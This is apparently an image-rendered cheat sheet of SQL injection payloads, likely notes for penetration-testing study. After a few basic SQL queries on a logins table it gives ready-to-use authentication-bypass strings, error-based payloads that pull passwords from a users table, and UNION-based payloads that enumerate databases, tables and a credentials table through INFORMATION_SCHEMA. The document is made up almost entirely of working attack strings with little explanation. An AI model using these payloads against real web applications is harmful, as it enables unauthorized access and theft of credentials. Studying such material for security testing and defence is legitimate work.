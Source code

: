 ```bash
ALTER TABLE logins MODIFY oldColumn DATE;
ALTER TABLE logins DROP oldColumn;

# Sorting Results
SELECT * FROM logins ORDER BY password;
SELECT * FROM logins ORDER BY password DESC;
SELECT * FROM logins ORDER BY password DESC, id ASC;

# Limit results
SELECT * FROM logins LIMIT 2;
SELECT * FROM logins LIMIT 1, 2;

# LIKE Clause
SELECT * FROM logins WHERE username LIKE 'admin%';
# this will match with three characters
SELECT * FROM logins WHERE username like '___';

# URL encoded
'	%27
"	%22
#	%23
;	%3B
)	%29

# Auth Bypass with OR operator
admin' or '1'='1
something' or '1'='1

# Auth Bypass with comments
admin' --
admin')--

# Error-based Payloads
offsec' OR 1=1 -- //
' or 1=1 in (select @@version) -- //
' OR 1=1 in (SELECT * FROM users) -- //
' or 1=1 in (SELECT password FROM users) -- //
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //

# UNION-based payloads
' ORDER BY 1-- //
%' UNION SELECT database(), user(), @@version, null, null -- //
' UNION SELECT null, null, database(), user(), @@version  -- //

# INFORMATION_SCHEMA
## SCHEMATA table in the INFORMATION_SCHEMA database contains information about all databases
## The SCHEMA_NAME column contains all the database names currently present.
## UNION SQL injection to get all the databases names
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -

## Find the current database
cn' UNION select 1,database(),2,3-- -

## TABLES table contains information about all tables throughout the database
## TABLE_NAME column stores table names, while the TABLE_SCHEMA column points to the database each table belongs to
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -

## COLUMNS table contains information about all columns present in all the databases.
## COLUMN_NAME, TABLE_NAME, and TABLE_SCHEMA columns can be used to achieve this
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```